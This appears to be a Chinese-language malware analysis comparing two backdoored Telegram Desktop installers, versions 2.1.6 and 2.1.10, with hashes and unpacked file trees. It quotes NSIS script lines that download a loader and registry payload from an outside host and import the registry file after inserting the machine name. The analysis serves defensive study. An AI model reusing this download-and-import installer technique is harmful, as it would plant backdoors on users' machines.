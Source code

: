 不過雖然已經有討論串出現，但現在看到的版本已經來到了 `2.1.10`，這讓我好奇想要來比較一下跟九月時的 `2.1.6` 版本有了什麼變化。接下來會用我手上有的 `telegram_setup.2.1.10.exe` 跟我在 ANY.RUN 這個[分析](https://app.any.run/tasks/aeb405ec-3fea-475f-9050-5ad0a5cf1c61/)找到的 `telegram_setup.2.1.6.exe` 相關檔案來做比較。

## 重新打包加料過的安裝程式
|Filename|SHA256|
|-|-|
|telegram_setup.2.1.6.exe|1f09381186a82f070d7beda66f575efdecd92b76217b5a0d9b904c1d64c89fc8|
|telegram_setup.2.1.10.exe|35133a3283381aa503f0d415de3ab8111e2e690bd32ad3dddde1213b51c877ba|

這兩個安裝程式都是用 NSIS ([nullsoft scriptable install system](https://nsis.sourceforge.io/Main_Page)) 打包的，可以利用 7-zip 直接解壓縮就能得到還原的安裝腳本 `[NSIS].nsi`。7-zip 在 `9.33` 的版本加入了自動反編譯 NSIS 腳本的功能，但又在 `15.06` 把這個功能拿掉了，所以要注意 7-zip 版本必須介於這兩者之間。

解開以後兩個版本的目錄結構如下：
```
2.1.6/
├── $PLUGINSDIR                        // NSIS 相關的檔案
│   ├── InstallOptions.dll
│   ├── ioSpecial.ini
│   ├── LangDLL.dll
│   ├── modern-wizard.bmp
│   └── TextReplace.dll
├── C                                  // 安裝過程中會直接複製到對應的位置的檔案
│   └── PerfLog
│       ├── AddInProcess.exe           // Backdoor (Loader)
│       └── AddInProcess.exe.config
├── [NSIS].nsi                         // 7-zip 解出來的 NSIS 腳本
├── ns.reg                             // Payload Registry File
├── Telegram.exe                       // Telegram Desktop 2.1.6.0
├── uninst.exe.nsis
└── Updater.exe
```
```
2.1.10/
├── $PLUGINSDIR                        // NSIS 相關的檔案
│   ├── InetLoad.dll
│   ├── InstallOptions.dll
│   ├── ioSpecial.ini
│   ├── LangDLL.dll
│   ├── modern-wizard.bmp
│   ├── System.dll
│   └── TextReplace.dll
├── [NSIS].nsi                         // 7-zip 解出來的 NSIS 腳本
├── Telegram.exe                       // Telegram Desktop 2.1.6.0
├── uninst.exe.nsis
└── Updater.exe
```

對比兩個版本可以很明顯的注意到 `2.1.10` 少了 `C:\PerfLog` 跟 `ns.reg` 關鍵的後門檔案，`2.1.6` 很直接的就把這些檔案一起打包，`2.1.10` 改變方式，利用 NSIS 腳本在安裝過程中才將這兩個檔案下載下來，這可以在 `[NSIS].nis` 腳本中看到，下面是從 `2.1.10` 的 `[NSIS].nsi` 腳本中節錄部份相關的指令：
```sh
# Download loader and registry file
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index2.php cnPath.exe
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index3.php ns.reg
```
```sh
# Replace 123456 to <ComputerName> from ns.reg then use regedit.exe to import
ReadRegStr $R1 HKLM SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName ComputerName
TextReplace::_FindInFile /NOUNLOAD $INSTDIR\ns.reg 123456 /S=1
TextReplace::_ReplaceInFile /NOUNLOAD $INSTDIR\ns.reg $INSTDIR\ns.reg 123456 $R1 "/S=1 /C=1 /AO=1"
```